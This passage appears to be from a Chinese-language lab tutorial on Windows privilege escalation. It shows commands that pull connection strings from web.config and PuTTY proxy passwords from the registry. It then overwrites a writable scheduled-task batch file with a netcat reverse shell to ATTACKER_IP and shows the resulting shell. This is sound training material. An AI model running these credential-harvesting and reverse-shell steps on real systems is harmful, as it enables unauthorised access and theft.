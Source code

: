 我们可以在以下位置之一找到 web.config：  
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

这是在文件上查找数据库连接字符串的快速方法：  
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

**从软件检索凭证**：PuTTY

要检索存储的代理凭据，您可以使用以下命令在以下注册表项下搜索 ProxyPassword：

reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

**计划任务**

查看目标系统上的计划任务，您可能会看到计划任务丢失了其二进制文件或正在使用您可以修改的二进制文件。

schtasks 可以使用不带任何选项的命令从命令行列出计划任务 。要检索有关任何服务的详细信息，您可以使用如下命令：
``````
命令提示符
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
``````
您将获得有关该任务的大量信息，但对我们来说重要的是“要运行的任务”参数，该参数指示计划任务执行的内容，以及“以用户身份运行”参数，该参数显示将使用的用户执行任务。

如果我们当前的用户可以修改或覆盖“要运行的任务”可执行文件，我们就可以控制 taskusr1 用户执行的内容，从而实现简单的权限提升。要检查可执行文件的文件权限，我们使用icacls：
``````
命令提示符
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
``````
从结果中可以看出，BUILTIN\Users组对任务的二进制文件具有完全访问权限 (F)。这意味着我们可以修改 .bat 文件并插入我们喜欢的任何有效负载。为了您的方便，nc64.exe可以在 上找到C:\tools。让我们更改 bat 文件以生成反向 shell：
``````
命令提示符
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
``````
然后，我们在攻击者机器上启动一个侦听器，该侦听器位于我们在反向 shell 上指示的同一端口上：  
``````
nc -lvp 4444
``````
下次运行计划任务时，您应该会收到具有taskusr1权限的反向shell。虽然您可能无法在实际场景中启动任务，而必须等待计划任务触发，但我们为您的用户提供了手动启动任务的权限，以节省您的时间。我们可以使用以下命令运行该任务：
``````
命令提示符
C:\> schtasks /run /tn vulntask
``````

您将按预期收到具有taskusr1权限的反向shell：  
``````
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
``````
